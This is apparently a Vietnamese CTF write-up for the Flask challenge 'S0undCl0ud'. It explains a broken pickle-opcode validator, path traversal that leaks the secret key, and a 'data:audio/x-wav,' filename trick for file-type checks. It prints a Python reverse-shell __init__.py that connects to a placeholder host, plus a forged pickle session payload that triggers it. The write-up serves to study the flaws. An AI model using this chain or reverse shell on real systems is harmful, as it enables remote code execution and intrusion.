






# S0undCl0ud
## Source
File tải source: [source](./s0undcl0ud.zip).

## Chức năng của ứng dụng web
Ứng dụng web của đề bài là một một ứng dụng có chức năng đăng ký/đăng nhập.



Thử đăng nhập với username và password lần lượt là `aaa` và `bbb` thì nhận được thông báo như sau.



Như vậy là lập trình viên có ý định để username và password thỏa mãn regex `\w{4,15}`.

Thử đăng nhập lại với username và password là `aaaa` và `bbbb`.



Mỗi user có thể tải các file âm thanh lên và các file đó sẽ được server lưu trữ.


Mình thử tải một file text lên thì nhận được như sau



Như vậy là bên phía server đã thực hiện kiểm tra gì đó đối với các file mình tải lên.


## Phân tích source code
Ứng dụng web được triển khai bằng ngôn ngữ lập trình Python, framework flask và hệ quản trị cơ sở dữ liệu là sqlite.

Lập trình viên sử dụng `flask.session` được chỉnh sửa để quản lý các session của user.

```python
import pickle
import pickletools
from flask.sessions import SecureCookieSessionInterface

_pickle_loads = pickle.loads


def loads_with_validate(data, *args, **kwargs):
    opcodes = pickletools.genops(data)

    allowed_args = ['user_id', 'musics', None]
    if not all(op[1] in allowed_args or
               type(op[1]) == int or
               type(op[1]) == str and re.match(r"^musics/[^/]+/[^/]+$", op[1])
               for op in opcodes):
        return {}

    allowed_ops = ['PROTO', 'FRAME', 'MEMOIZE', 'MARK', 'STOP',
                   'EMPTY_DICT', 'EMPTY_LIST', 'SHORT_BINUNICODE', 'BININT1',
                   'APPEND', 'APPENDS', 'SETITEM', 'SETITEMS']
    if not all(op[0].name in allowed_ops for op in opcodes):
        return {}

    return _pickle_loads(data, *args, **kwargs)


pickle.loads = loads_with_validate


class SessionInterface(SecureCookieSessionInterface):
    serializer = pickle


app = Flask(__name__)
app.secret_key = '___SECRET_KEY___'
app.session_interface = SessionInterface()
```

Việc chỉnh sửa có một chi tiết quan trọng là thay đổi thuộc tính `serializer` thành `pickle`. Về serialize và `pickle` mọi người có thể xem ở [đây](https://www.youtube.com/watch?v=jwzeJU_62IQ).

`pickle` là một serializer có thể chứa code được thực thi khi deserialize. Nên khi deserialize rất nguy hiểm. Do đó lập trình viên trước khi deserialize đã filter như hàm `loads_with_validate`.

Trước khi phân tích hàm `loads_with_validate`, mình nghĩ các bạn nên học cách mà pickle (de)serialize. Mình có một bài viết ở [đây](../../../techniques/pickle_and_problem) nè :v.

Ý định filter của lập trình viên:
- Mọi argument của opcode cần thuộc `allowed_args` hoặc phải là kiểu int hoặc là kiểu string nhưng thỏa mãn regex `^musics/[^/]+/[^/]+$`.
    ```python
    allowed_args = ['user_id', 'musics', None]
    if not all(op[1] in allowed_args or
            type(op[1]) == int or
            type(op[1]) == str and re.match(r"^musics/[^/]+/[^/]+$", op[1])
            for op in opcodes):
        return {}
    ```
- Lệnh của opcode phải thuộc `allowed_ops`.
    ```python
    allowed_ops = ['PROTO', 'FRAME', 'MEMOIZE', 'MARK', 'STOP',
                   'EMPTY_DICT', 'EMPTY_LIST', 'SHORT_BINUNICODE', 'BININT1',
                   'APPEND', 'APPENDS', 'SETITEM', 'SETITEMS']
    if not all(op[0].name in allowed_ops for op in opcodes):
        return {}
    ```
- Khi bypass được cả hai thứ trên thì mới được deserialize.

Sau phần session là phần của database. Lập trình viên setup một cơ sở dữ liệu với bảng `users` với các trường `id`, `username` và `password`.

Tiếp theo ta sẽ phân tích các endpoint.

Endpoint `GET /` cho ta biết là trong session sẽ quản lý `user_id` và `musics`. Cụ thể làm gì thì cần phải đọc tiếp mới biết được :v
```python
@app.get("/")
def home():
    if 'user_id' not in session:
        return redirect("/login")

    return render_template('index.html', musics=session.get('musics'))
```

Endpoint `GET /login` thì không có gì đặc biệt trả về trang `login.html`.

Endpoint `POST /login` thì sẽ là nơi xử lý `username` và `password` do user gửi.
```python
@app.post("/login")
def do_login():
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    if not re.match(r"\w{4,15}", username) or not re.match(r"\w{4,15}", password):
        return "Username or password doesn't match \w{4,15}"

    cursor = db().cursor()
    query = "SELECT id, username, password FROM users WHERE username=?"
    res = cursor.execute(query, (username,)).fetchone()
    if res == None:
        # register
        query = "INSERT INTO users (username, password) VALUES (?, ?)"
        user_id = cursor.execute(query, (username, password,)).lastrowid
        db().commit()
        os.mkdir(safe_join("musics", username))
        session["user_id"] = user_id
        session["musics"] = []
        return redirect("/")
    elif res['password'] == password:
        # login
        musics = list(map(attrgetter('path'),
                          os.scandir(safe_join("musics", username))))
        session["user_id"] = res['id']
        session["musics"] = musics
        return redirect("/")
    else:
        return "Wrong password!"
```
Ở đây `username` và `password` được kiểm tra là phải thỏa mãn regex `\w{4,15}`. Nếu là user mới thì sẽ được lưu thông tin và cơ sở dữ liệu và được tạo một thư mục riêng trong `musics`. File được upload của user này sẽ ở trong thư mục riêng đó.

Mình nghĩ ở đây lập trình viên có ý định chỉ cho phép regex như này `^\w{4,15}$` nhưng do vô ý nên ta có thể để `username` là `aaaa/../` mà vẫn bypass được regex `\w{4,15}`. Nên sẽ có lỗ hổng path traversal ở đây. Lúc đó thư mục riêng của `aaaa/../` sẽ là `musics` luôn.

Mỗi session sẽ quản lý `user_id` là id của user và `musics` là list chứa danh sách các đường dẫn tới các file trong thư mục riêng của user đó.

Endpoint `POST /upload` thì sẽ là nơi xử lý file âm thành user tải lên.
```python
@app.post("/upload")
def upload():
    if 'user_id' not in session:
        return redirect("/login")

    cursor = db().cursor()
    query = "SELECT username FROM users WHERE id=?"
    user_id = session['user_id']
    username = cursor.execute(query, (user_id,)).fetchone()['username']
    file = request.files.get('file')
    if mimetypes.guess_type(file.filename)[0] in AUDIO_MIMETYPES and \
            magic.from_buffer(file.stream.read(), mime=True) in AUDIO_MIMETYPES:
        file.stream.seek(0)
        filename = safe_join("musics", username, file.filename)
        file.save(filename)
        if filename not in session['musics']:
            session['musics'] = session['musics'] + [filename]
        return redirect("/")

    return "Invalid file type!"
```
Trước đó, ta có
```
>>> import mimetypes                                                                                                    >>>                                                                                                                     >>> AUDIO_MIMETYPES = set(filter(lambda mime: mime.startswith('audio/'),                                                ...                              mimetypes.types_map.values()))                                                         >>> AUDIO_MIMETYPES                                                                                                     {'audio/x-ms-wma', 'audio/basic', 'audio/x-wav', 'audio/csound', 'audio/x-sd2', 'audio/x-ms-wax', 'audio/ogg', 'audio/prs.sid', 'audio/x-gsm', 'audio/mpeg', 'audio/amr', 'audio/x-scpls', 'audio/flac', 'audio/amr-wb', 'audio/x-mpegurl', 'audio/x-aiff', 'audio/x-realaudio', 'audio/x-pn-realaudio', 'audio/annodex', 'audio/midi'}
```

Sau đó ở `POST /upload` file tải lên sẽ được kiểm tra là `mimetypes.guess_type(file.filename)[0] in AUDIO_MIMETYPES and magic.from_buffer(file.stream.read(), mime=True) in AUDIO_MIMETYPES`. Tức là sẽ dựa vào filename của file được tải lên và magic byte để đoán filetype. Nếu filetype thuộc `AUDIO_MIMETYPES` thì sẽ cho phép lưu vào thư mục riêng của user và cập nhật `session`.

Endpoint `GET /@<username>/<file>`:
```python
@app.get("/@<username>/<file>")
def music(username, file):
    return send_from_directory(f"musics/{username}", file, mimetype="application/octet-stream")
```
Endpoint này được tạo ra để gửi file âm thanh khi biết `username` và `file` (gửi về file `musics/{username}/{file}`). Tuy nhiên ở đây có lỗi path traversal, ta thay `username` bằng `..` và `file` thành `app.py` thì sẽ lấy được source code bao gồm cả `SECRET_KEY`. 
Khi đã có được `SECRET_KEY` attacker có thể sửa cookie theo ý muốn.


## Phân tích solution
Toàn bộ code exploit: [exploit.py](./exploit.py).

Sau khi phân tích hết source code mình vẫn không biết khai thác sao cả, tại vì flag nằm ở `/` nên phải RCE, mà thứ duy nhất có khả năng RCE là pickle mà mình không sao bypass được đoạn filter opcode đó cả. Do đó mình sẽ phân tích solution của ban tổ chức.

Một điều mấu chốt mà mình bỏ qua chính là `pickletools.genops(data)` sẽ trả về generator. Khi sử dụng `for in` đối với generator 2 lần thì lần sau không có tác dụng gì cả. Do đó ở phần filter opcode pickle thì chỉ có cái đầu tiên có tác dụng. Nên hàm `loads_with_validate` sẽ có tác dụng duy nhất là kiểm tra mọi argument của opcode cần thuộc `allowed_args` (`['user_id', 'musics', None]`) hoặc phải là kiểu int hoặc là kiểu string nhưng thỏa mãn regex `^musics/[^/]+/[^/]+$`. Còn lệnh của opcode thì là gì cũng được.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b'Vmusics\n2\x93.')
>>> for x in opcode:
...     print(x[0].name, x[1])
...
UNICODE musics
DUP None
STACK_GLOBAL None
STOP None
>>>
>>> for x in opcode:            # không có ý nghĩa 
...     print(x[0].name, x[1]) 
...
>>>
```

Ý tưởng của tác giả sẽ là upload file `__init__.py` vào thư mục `musics` rồi lợi dụng lệnh `STACK_GLOBAL` trong pickle machine để import `musics` từ đó sẽ thực thi code trong `__init__.py`. Cách lợi dụng như trong [bài viết](../../../techniques/pickle_and_problem), chỉ khác là lần này tác giả sử dụng `STACK_GLOBAL` thay cho `GLOBAL` như trong bài viết. Chuỗi opcode mà ta muốn deserialize sẽ như sau `Vmusics\n2\x93.`.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b'Vmusics\n2\x93.')
>>> for x in opcode:
...     print(x[0].name, x[1])
...
UNICODE musics
DUP None
STACK_GLOBAL None
STOP None
```

Ta đã lấy được `SECRET_KEY` và có được chuỗi opcode để RCE, giờ ta cần tìm cách upload `__init__.py` nữa là xong.

Ta sẽ dùng username dạng `aaaa/../` để có thể upload vào `musics`, bây giờ ta chỉ cần bypass đoạn check file type nữa là xong.

Hàm `guess_type()` nhận argument là một url chứ không phải là một file name.


Nên có thể sử dụng `data:audio/x-wav,` để bypass. Hàm đó sẽ check scheme và type trước khi check filename. Ví dụ: `data:audio/x-wav,/test.py` sẽ được đoán file type là `audio/x-wav` còn `test.py` sẽ được đoán file type là `text/x-python` .Mọi người đọc thêm ở [đây](https://github.com/python/cpython/blob/main/Lib/mimetypes.py#L103) nhé 😉

Hoặc có thể sử dụng null byte để bypass:


Còn bypass check thứ hai thì sử dụng magicbyte của `audio/x-wav` (`RIFFxxxxWAVEfmt`) ở đầu file là bypass được.

Lúc đó file type được dự đoán đều là `audio/x-wav`. Do đó sẽ bypass được.

Kết hợp hết những thứ ở trên lại. Trong file exploit của tác giả, quy trình như sau:

0. Setup chuẩn bị cho reverse shell.
1. Lấy `SECRET_KEY`.
2. Login với username là `data:audio` -> tạo thư mục `musics/data:audio`.
3. Login với username là `data:audio/x-wav,` -> tạo thư mục `musics/data:audio/x-wav,`.
4. Login với username là `nyan` -> tạo thư mục `musics/nyan`.
5. Login với `nyan/../` -> tạo thư mục `musics/nyan/../`hay `musics`, vì `musics` đã tồn tại nên sẽ có lỗi ở bước này, tuy nhiên cơ sở dữ liệu được lưu trước khi có lỗi nên tài khoản `nyan/..` vẫn còn.
6. Sử dụng tài khoản `nyan/../` để gửi file với filename là `data:audio/x-wav,/../../__init__.py` -> lưu file `musics/data:audio/x-wav,/../../__init__.py` chỉnh là `musics/__init__.py`. Filename có `data:audio/x-wav` và trong `__init__.py` có chứa magic byte của `data:audio/x-wav` nên sẽ bypass được đoạn check khi upload file.
    ```py
    # file __init__.py

    RIFFxxxxWAVEfmt = 1337  # file signature for `audio/x-wav`
    import socket, subprocess, os
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("HOOK", 2808))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    p = subprocess.call(["/bin/bash", "-i"])
    ```
7. Sử dụng `SECRET_KEY` gửi `b'Vmusics\n2\x93.'` lên để import `musics` và RCE.

## Những thứ học được
Trước giờ mình vẫn thắc mắc cách hoạt động của pickle, sau bài này thì mình đã học được điều đó. Ngoài ra mình còn biết về generator nữa. 🙂